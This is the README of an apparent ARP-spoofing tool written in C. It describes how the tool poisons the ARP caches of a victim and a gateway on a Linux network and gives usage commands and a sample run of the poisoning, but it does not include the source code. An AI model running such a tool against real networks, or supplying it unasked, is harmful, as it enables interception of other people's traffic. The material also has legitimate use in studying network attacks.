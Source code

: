 # ARP Spoofing

C program performing ARP cache poisoning (works on Linux).

Program:

- obtains MAC addresses of remote hosts with ARP requests
- sends gratuitous ARP reply packets with local MAC address

Program doesn't restore ARP caches of remote hosts.

## Disclaimer

This is for educational purposes only. I DO NOT encourage or promote any illegal activities.

## Usage

```
$ sudo ./a.out <iface name> <vitcim's IP> <gateway's IP> 
```

Example:

```
$ gcc -Wall arp_spoof.c
$ sudo ./a.out eth0 192.168.8.100 192.168.8.1
Linux ARP spoofer
-----------------
Looking for MAC addresses...
Local MAC address is aa:bb:cc:dd:ee:ff
Local IP address is 192.168.8.101
Victim's (192.168.8.100) MAC address: 11:22:33:44:55:66
Gateway's (192.168.8.1) MAC address: ff:ee:dd:cc:bb:aa
Poisoning...
Sent ARP reply to victim
Sent ARP reply to gateway
Sent ARP reply to victim
Sent ARP reply to gateway
^C
```

Ctrl + C to stop